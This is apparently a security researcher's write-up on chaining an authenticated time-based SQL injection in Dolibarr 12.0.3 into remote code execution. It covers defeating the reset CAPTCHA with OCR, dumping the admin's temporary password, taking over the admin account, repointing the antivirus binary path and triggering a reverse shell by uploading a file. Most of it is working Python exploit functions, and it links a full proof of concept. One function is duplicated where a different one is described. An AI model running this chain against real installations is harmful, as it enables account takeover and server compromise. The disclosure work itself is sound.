





# C10011: Dolibarr 12.0.3, SQLi to RCE (authenticated)

In continuation of the two previous chapters, I will present here how it is possible to obtain code execution all summarized in a single python script.

The basic idea is to perform an admin take over using the first vulnerability from the previous chapter (c10010). Then combine this with modifying the route of a binary and you'd get code execution (c10001).

## Why ?

When requesting a password reset, a temporary password (stored in column `pass_temp` of table `<PREFIX>_user`), is used to generate a token send by email to the account owner. Then the account owner can reset his password using the token received by email.

The attack we are going to carry out is the following:

1. Identification of the table's prefix.
2. Extraction of the administrator's username and `pass_temp`.
3. Password reset of the administrator. (OCR with [tesseract](https://github.com/tesseract-ocr/tesseract))
4. Modification of administrator's password.
5. Modification of antivirus binary's path.
6. Trigger reverse shell.

## How ?

Any non-authenticated user can make a reset request as long as they know the account name of the user to be reset (which is a normal operation).





File: <span style="color:red">\<ROOT\>/user/passwordforgotten.php</span>
```php

...

// Action modif mot de passe
if ($action == 'buildnewpassword' && $username)
{
    $sessionkey = 'dol_antispam_value';
    $ok = (array_key_exists($sessionkey, $_SESSION) === true && (strtolower($_SESSION[$sessionkey]) == strtolower($_POST['code'])));

    // Verify code
    if (!$ok)
    {
        $message = '<div class="error">'.$langs->trans("ErrorBadValueForCode").'</div>';
    }
    else
    {
        $edituser = new User($db);
        $result = $edituser->fetch('', $username, '', 1);
        if ($result == 0 && preg_match('/@/', $username))
        {
            $result = $edituser->fetch('', '', '', 1, -1, $username);
        }

        if ($result <= 0 && $edituser->error == 'USERNOTFOUND')
        {
            $message = '<div class="error">'.$langs->trans("ErrorLoginDoesNotExists", $username).'</div>';
            $username = '';
        }
        else
        {
            if (!$edituser->email)
            {
                $message = '<div class="error">'.$langs->trans("ErrorLoginHasNoEmail").'</div>';
            }
            else
            {
                $newpassword = $edituser->setPassword($user, '', 1);
                if ($newpassword < 0)
                {
                    // Failed
                    $message = '<div class="error">'.$langs->trans("ErrorFailedToChangePassword").'</div>';
                }
                else
                {
                    // Success
                    if ($edituser->send_password($user, $newpassword, 1) > 0)
                    {
                        $message = '<div class="ok'.(empty($conf->global->MAIN_LOGIN_BACKGROUND) ? '' : ' backgroundsemitransparent').'">'.$langs->trans("PasswordChangeRequestSent", $edituser->login, dolObfuscateEmail($edituser->email)).'</div>';
                        $username = '';
                    }
                    else
                    {
                        $message .= '<div class="error">'.$edituser->error.'</div>';
                    }
                }
            }
        }
    }
}

...

```

### Antispam feature

As we may be able to see, to regenerate the password, the variable `$ok` must first be equal to 1. The problem is that the variable depends on `strtolower($_SESSION[$sessionkey])`.

Let's look at what this value corresponds to:

File: <span style="color:red">\<ROOT\>/core/antispamimage.php</span>
```php

...

/*
 * View
 */

$length = 5;
$letters = 'aAbBCDeEFgGhHJKLmMnNpPqQRsStTuVwWXYZz2345679';
$number = strlen($letters);
$string = '';
for ($i = 0; $i < $length; $i++)
{
    $string .= $letters[mt_rand(0, $number - 1)];
}
//print $string;


$sessionkey = 'dol_antispam_value';
$_SESSION[$sessionkey] = $string;

$img = imagecreate(80, 32);
if (empty($img))
{
    dol_print_error('', "Problem with GD creation");
    exit;
}

// Define mime type
top_httphead('image/png', 1);

$background_color = imagecolorallocate($img, 250, 250, 250);
$ecriture_color = imagecolorallocate($img, 0, 0, 0);
imagestring($img, 4, 24, 8, $string, $ecriture_color);
imagepng($img);

...

```

As we can see the `$_SESSION[$sessionkey]` variable corresponds to a code in the form of an image.




#### Defeating antispam feature using OCR


- The antispam code is being stored in our session as `$_SESSION[$sessionkey]`.
- We can change it as many times as we want by making a request to <span style="color:red">\<ROOT\>/core/antispamimage.php</span>.


So we're going to defeat the security by using OCR with [tesseract](https://github.com/tesseract-ocr/tesseract).

Example:
```python
from PIL import Image
import pytesseract
import requests
import random
from io import BytesIO

DEBUG = 1
SESSION = requests.session()
ANTISPAM_PATH = "core/antispamimage.php"


def get_antispam_code(base_url):
    code = ""
    while len(code) != 5:
        r = SESSION.get(f"{base_url}{ANTISPAM_PATH}")
        temp_image = f"/tmp/{random.randint(0000,9999)}"
        with open(temp_image, "wb") as f:
            f.write(r.content)
        with open(temp_image, "rb") as f:
            code = pytesseract.image_to_string(
                Image.open(BytesIO(f.read()))).split("\n")[0]
        for char in code:
            if char not in "aAbBCDeEFgGhHJKLmMnNpPqQRsStTuVwWXYZz2345679":
                code = ""
                break
    if DEBUG:
        print(f"[*] Antispam code ({code}) stored at: {temp_image}")
    return code


get_antispam_code("http://127.0.0.1/projects/dolibarr/12.0.3/htdocs/")
```

Which gives us the following result:

```
▶ python3 sqli_to_rce_12.0.3.py
[*] Antispam code (hsqNn) stored at: /tmp/6548
```

> Note: Since it is finally the function `strtolower()` that is applied to our code we could reduce the ensemble from `aAbBCDeEFgGhHJKLmMnNpPqQRsStTuVwWXYZz2345679` to `ABCDEFGHJKLMNPQRSTVWXYZ2345679` in order to reduce the number of queries induced by the OCR fails. But in order to best respect what the application does let's leave it as we did.

We now get to the heart of the matter, we are going to use the vulnerability discovered in the previous [chapter](https://therealcoiffeur.github.io/c10010) to first perform the following actions:

### Identification of the table's prefix

Authentication:

```python
def authenticate(url, username, password):
    datas = {
        "actionlogin": "login",
        "loginfunction": "loginfunction",
        "username": username,
        "password": password
    }
    r = SESSION.post(f"{url}index.php", data=datas,
                     allow_redirects=False, verify=False)
    if r.status_code != 302:
        if DEBUG:
            print(f"[x] Authentication failed!")
        return 0
    if DEBUG:
        print(f"    [*] Authenticated as: {username}")
    return 1
```

Check if the version is vulnerable and privileges correctly defined:

```python
def get_version(url):
    r = SESSION.get(f"{url}index.php", verify=False)
    x = re.findall(
        r"Version Dolibarr [0-9]{1,2}.[0-9]{1,2}.[0-9]{1,2}", r.text)
    if x:
        version = x[0]
        if "12.0.3" in version:
            if DEBUG:
                print(f"    [*] {version} (exploit should work)")
            return 1
    if DEBUG:
        print(f"[*] Version may not be vulnerable")
    return 0


def get_privileges(url):
    r = SESSION.get(f"{url}index.php", verify=False)
    x = re.findall(r"id=\d", r.text)
    if x:
        id = x[0]
        if DEBUG:
            print(f"    [*] id found: {id}")
        r = SESSION.get(f"{url}user/perms.php?{id}", verify=False)
        soup = BeautifulSoup(r.text, 'html.parser')
        for img in soup.find_all("img"):
            if img.get("title") in ["Actif", "Active"]:
                for td in img.parent.parent.find_all("td"):
                    privileges = [
                        "Consulter les commandes clients", "Read customers orders"]
                    for privilege in privileges:
                        if privilege in td:
                            if DEBUG:
                                print(
                                    f"    [*] Check privileges: {privilege}")
                            return 1
    if DEBUG:
        print(f"[*] At the sight of the privileges, the exploit may fail")
    return 0
```

Let's calculate the average delay induced by the MySQL `SLEEP()` function:

```python
def check(url, payload):
    headers = {
        "Referer": f"{url}commande/stats/index.php?leftmenu=orders"
    }
    datas = {"object_status": payload}
    r = SESSION.post(url=f"{url}commande/stats/index.php",
                     data=datas, headers=headers, verify=False)
    return r.elapsed.total_seconds()


def evaluate_delay(url):
    global DELTA
    deltas = []
    payload = f"IF(0<1, SLEEP({DELAY}), SLEEP(0))"
    for _ in range(4):
        deltas.append(check(url, payload))
    DELTA = sum(deltas)/len(deltas)
    if DEBUG:
        print(f"    [+] Delta: {DELTA}")
```

It is during the development of the function allowing to find the prefix that I was confronted to bypass the `escape()` function, what I hadn't noticed when writing the previous chapter. Characters such as `"` and `'` are being replaced by the following strings `\"`, `\'`. But it is enough to convert our strings into hexadecimal in order to bypass this mechanism.

Example: `%_product_warehouse_properties` become `0x255F70726F647563745F77617265686F7573655F70726F70657274696573`

```python
def hex(text):
    return "0x" + binascii.hexlify(text.encode()).decode()
```

Which is directly used in the following function to calculate the table's name length of which a part is known.

```python
def get_tbl_name_len(url):
    i = 0
    while 1:
        payload = f"IF((SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_name LIKE {hex(LIKE)})>{i}, SLEEP(0), SLEEP({DELAY}))"
        if check(url, payload) >= DELTA*TRESHOLD:
            return i
        if i > 100:
            print(f"[x] Exploit failed")
            exit(-1)
        i += 1
```

Once the name's length is known, the name can be retrieved using the following function:

```python
def get_tbl_name_len(url):
    i = 0
    while 1:
        payload = f"IF((SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_name LIKE {hex(LIKE)})>{i}, SLEEP(0), SLEEP({DELAY}))"
        if check(url, payload) >= DELTA*TRESHOLD:
            return i
        if i > 100:
            print(f"[x] Exploit failed")
            exit(-1)
        i += 1
```

The prefix being stored in the name we can therefore extract it and continue the exploitation.

### Extraction of the administrator's username and `pass_temp`

We still have to perform steps 2 and 3 before we can reset the administrator password.

```python
def get_elt_len(url, tbl_name, column_name):
    i = 0
    while 1:
        payload = f"IF((SELECT LENGTH({column_name}) FROM {tbl_name} LIMIT 1)>{i}, SLEEP(0), SLEEP({DELAY}))"
        if check(url, payload) >= DELTA*TRESHOLD:
            return i
        if i > 100:
            print(f"[x] Exploit failed")
            exit(-1)
        i += 1


def get_elt(url, tbl_name, column_name, length):
    elt = ""
    for i in range(1, length+1):
        min, max = 0, 127-1
        while min < max:
            mid = (max + min) // 2
            payload = f"IF((SELECT ASCII(SUBSTR({column_name},{i},1)) FROM {tbl_name} LIMIT 1)<={mid} , SLEEP({DELAY}), SLEEP(0))"
            if check(url, payload) >= DELTA*TRESHOLD:
                max = mid
            else:
                min = mid + 1
        elt += chr(min)
    return elt


def get_row(url, tbl_name):
    print(f"    [*] Dump admin's infos from {tbl_name}")
    infos = {}
    for column_name in COLUMNS:
        elt_length = get_elt_len(url, tbl_name, column_name)
        infos[column_name] = get_elt(url, tbl_name, column_name, elt_length)
    if DEBUG:
        print(f"    [+] Infos: {infos}")
    return infos
```

### Password reset of the administrator

Once the information has been dumped we need to reset the administrator's password. The action of the password reset is realized within the loop of 5 iteration in order to overcome the possibility of incorrect text detection by OCR.

```python
def reset_password(url, login):
    for _ in range(5):
        code = get_antispam_code(url)
        headers = {
            "Referer": f"{url}user/passwordforgotten.php"
        }
        datas = {
            "action": "buildnewpassword",
            "username": login,
            "code": code
        }
        r = SESSION.post(url=f"{url}user/passwordforgotten.php",
                         data=datas, headers=headers, verify=False)
        if r.status_code == 200:
            for response in [f"Request to change password for {login} sent to", f"Demande de changement de mot de passe pour {login} envoyée"]:
                if r.text.find(response):
                    if DEBUG:
                        print(f"    [*] Password reset using code: {code}")
                    return 1
    return 0
```

Now let's change the administrator's password.

### Modification of administrator's password

In order to identify how to send the necessary data we can either read the code of <span style="color:red">\<ROOT\>/user/passwordforgotten.php</span>.

File: <span style="color:red">\<ROOT\>/user/passwordforgotten.php</span>
```php

...

// Validate new password
if ($action == 'validatenewpassword' && $username && $passwordhash)
{
    $edituser = new User($db);
    $result = $edituser->fetch('', $_GET["username"]);
    if ($result < 0)
    {
        $message = '<div class="error">'.$langs->trans("ErrorLoginDoesNotExists", $username).'</div>';
    }
    else
    {
        if (dol_verifyHash($edituser->pass_temp, $passwordhash))
        {
            // Clear session
            unset($_SESSION['dol_login']);
            $_SESSION['dol_loginmesg'] = $langs->trans('NewPasswordValidated');	// Save message for the session page

            $newpassword = $edituser->setPassword($user, $edituser->pass_temp, 0);
            dol_syslog("passwordforgotten.php new password for user->id=".$edituser->id." validated in database");
            header("Location: ".DOL_URL_ROOT.'/');
            exit;
        }
        else
        {
            $langs->load("errors");
            $message = '<div class="error">'.$langs->trans("ErrorFailedToValidatePasswordReset").'</div>';
        }
    }
}

...

```

Or see how the mail sent to the user is generated in <span style="color:red">\<ROOT\>/user/class/user.class.php</span>:

File: <span style="color:red">\<ROOT\>/user/class/user.class.php</span>
```php
    public function send_password($user, $password = '', $changelater = 0)
    {

        ...

        if (!$changelater)
        {

            ...

        }
        else
        {
            $url = $urlwithroot.'/user/passwordforgotten.php?action=validatenewpassword&username='.urlencode($this->login)."&passwordhash=".dol_hash($password);

            ...

        }

        ...

    }
```

It is this second method that allows us to create the following function:

```python
def change_password(url, login, pass_temp):
    r = requests.get(url=f"{url}user/passwordforgotten.php?action=validatenewpassword&username={qp(login)}&passwordhash={hash(pass_temp)}",
                     allow_redirects=False, verify=False)
    if r.status_code == 302:
        if DEBUG:
            print(f"    [*] Password changed: {pass_temp}")
        return 1
    return 0
```

Now that our exploit allows us to change the password of an administrator, we just have to perform the following steps:

5. Modification of antivirus binary's path.
6. Trigger reverse shell.

### Modification of antivirus binary's path

```python
def change_binary(url, command, parameters):
    headers = {
        "Referer": f"{url}admin/security_file.php"
    }
    datas = {
        "action": "updateform",
        "MAIN_UPLOAD_DOC": "2048",
        "MAIN_UMASK": "0664",
        "MAIN_ANTIVIRUS_COMMAND": command,
        "MAIN_ANTIVIRUS_PARAM": parameters
    }
    r = SESSION.post(url=f"{url}admin/security_file.php",
                     data=datas, headers=headers, verify=False)
    if r.status_code == 200:
        for response in ["Record modified successfully", "Enregistrement modifié avec succès"]:
            if response in r.text:
                if DEBUG:
                    print(f"    [*] Binary's path changed")
                return 1
    return 0
```

Now we just have to get the reverse shell by uploding a file.

### Trigger reverse shell

```python
def trigger_exploit(url):
    headers = {
        "Referer": f"{url}admin/security_file.php"
    }
    files = {
        "userfile[]": open("junk.txt", "rb"),
    }
    datas = {
        "sendit": "Upload"
    }
    if DEBUG:
        print(f"    [*] Triggering reverse shell")
    r = SESSION.post(url=f"{url}admin/security_file.php",
                     files=files, data=datas, headers=headers, verify=False)
    if r.status_code == 200:
        for response in ["File(s) uploaded successfully", "The antivirus program was not able to validate the file (file might be infected by a virus)", "Fichier(s) téléversés(s) avec succès", "L'antivirus n'a pas pu valider ce fichier (il est probablement infecté par un virus) !"]:
            if response in r.text:
                if DEBUG:
                    print(f"    [*] Exploit done")
                return 1
    return 0
```

Let's put it all together to achieve a functional exploit.

## Exploit

Since the SQL injection have been exploited via a Time Based attack, it takes a little time to retrieve the administrator's information (username and `pass_temp`) from the database.



- [POC](https://github.com/therealcoiffeur/therealcoiffeur.github.io/blob/master/tools/Dolibarr/sqli_to_rce_12.0.3.py)


